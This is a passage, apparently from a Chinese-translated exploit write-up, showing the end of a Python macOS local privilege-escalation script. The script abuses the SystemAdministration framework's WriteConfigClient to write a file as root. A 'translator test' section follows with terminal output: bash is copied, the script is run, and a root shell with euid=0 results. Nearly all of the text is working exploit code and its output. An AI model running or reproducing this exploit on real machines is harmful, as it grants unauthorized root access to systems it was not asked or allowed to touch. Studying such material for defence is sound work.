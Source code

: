 ```
else:
    adm_lib = load_lib("/SystemAdministration.framework/SystemAdministration")
    WriteConfigClient = objc.lookUpClass("WriteConfigClient")
    client = WriteConfigClient.sharedClient()
    client.authenticateUsingAuthorizationSync_(None)
    tool = client.remoteProxy()

    tool.createFileWithContents_path_attributes_(data, dest_binary, attr, 0)


print "Done!"

del pool

```

0x05 译者测试
=====

```
[test@test:~]$ cp /bin/bash bashceshi 
[test@test:~]$ python CVE-2013-1775.py bashceshi bashroot
will write file /Users/test/Downloads/bashroot 
Done! 
[test@test:~]$ ./bashroot -p
bashroot-3.2# id
uid=501(test) gid=20(staff) euid=0(root) groups=20(staff),501(access_bpf),402(com.apple.sharepoint.group.1),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),33(_appstore),100(_lpoperator),204(_developer),398(com.apple.access_screensharing),399(com.apple.access_ssh)

```